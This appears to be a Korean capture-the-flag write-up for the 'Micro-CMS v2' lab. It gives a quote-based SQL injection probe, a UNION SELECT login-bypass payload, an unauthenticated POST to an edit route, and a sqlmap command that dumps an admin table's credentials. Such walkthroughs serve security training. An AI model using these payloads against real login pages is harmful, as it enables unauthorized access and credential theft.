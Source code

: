 # Micro-CMS v2

## Flag0

첫번째 Flag는 간단하게 SQL Injection 취약점을 이용하여, 로그인하여 알아낼 수 있습니다.

### 0x00 Try SQLi

`Create a new page` 링크를 눌러, 로그인 페이지로 이동하여아합니다.
다음, Username에 `'`(single quote)을 넣어 SQLi 를 시도해봅니다.
그러면 다음과 같은 Traceback 메세지를 만나볼 수 있습니다.

```py
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1")
```

그러면 다음과 같이 SQL문 구조를 볼 수 있습니다.

### 0x01 Login

Form에 다음과 같이 작성해줍니다.

Username: `' UNION SELECT 'coolwonder' AS password#`
Password: `coolwonder`

### 0x02 View Page

글 리스트에서 가장 수상하게 생긴 `Private Page`를 클린한다.


## Flag1
### 0x00 Stay Logout

먼저 로그아웃 되어있어야한다.

### 0x01 Edit Page

수정 라우트를 만져보다 발견되었다.

**POST** `http://ctf/xxxxxxx/page/edit/1`
위와 같이 HTTP 요청을 보내시면 Flag값을 반환한다.

## Flag2

### 0x00 sqlmap

```sh
python sqlmap.py -u "http://35.227.24.107/4be86410fc/login" --data "username=admin&password=admin" --regexp "Invalid password" --dump
```

반환:
```sh
Database: level2
Table: admins
[1 entry]
+----+----------+----------+
| id | password | username |
+----+----------+----------+
| 1  | kizzie   | sharlene |
+----+----------+----------+
```

### 0x01 Login

반환되는 유저네임과 비밀번호를 이용하여 로그인하면 마지막 Flag를 확인할 수 있다.
